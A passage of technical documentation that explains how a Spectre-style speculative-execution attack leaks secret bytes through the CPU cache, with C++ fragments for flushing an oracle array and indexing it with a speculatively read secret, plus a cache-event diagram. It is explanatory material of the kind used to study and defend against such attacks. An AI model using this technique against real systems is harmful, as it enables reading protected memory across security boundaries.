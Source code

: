 ```cpp
        std::cout << target.name << ": " << leaked << std::endl;
    }
    
    return results;
}
```

-----

## 4. Secret Detection in Cache - Detailed Mechanism

### Cache Side-Channel Detection Process

#### Step 1: Oracle Preparation

```cpp
// Each oracle entry occupies exactly one cache line
std::array<BigByte, 256> oracle;

// Before attack: flush all oracle entries
for (size_t i = 0; i < 256; ++i) {
    FlushFromDataCache(&oracle[i], &oracle[i] + 1);
}
// Result: All oracle[0-255] are NOT in cache
```

#### Step 2: Speculative Secret Access

```cpp
// During mispredicted speculation:
char secret_value = private_data[offset];  // e.g., secret_value = 0x73 ('s')

// Use secret as array index:
ForceRead(oracle.data() + static_cast<size_t>(secret_value));
// This loads oracle[0x73] into cache line
```

**Microarchitectural Events:**

```mermaid
sequenceDiagram
    participant CPU as CPU Core
    participant L1 as L1 Cache
    participant L2 as L2 Cache  
    participant Mem as Main Memory
    
    CPU->>L1: Request oracle[0x73]
    L1->>CPU: Cache Miss
    CPU->>L2: Request oracle[0x73]
    L2->>CPU: Cache Miss
    CPU->>Mem: Load oracle[0x73]
    Mem->>L2: Cache line data
    L2->>L1: Cache line data
    L1->>CPU: oracle[0x73] available
    Note over CPU: Misprediction detected!
    Note over CPU: Rollback architectural state
    Note over L1,L2: Cache state PRESERVED
```
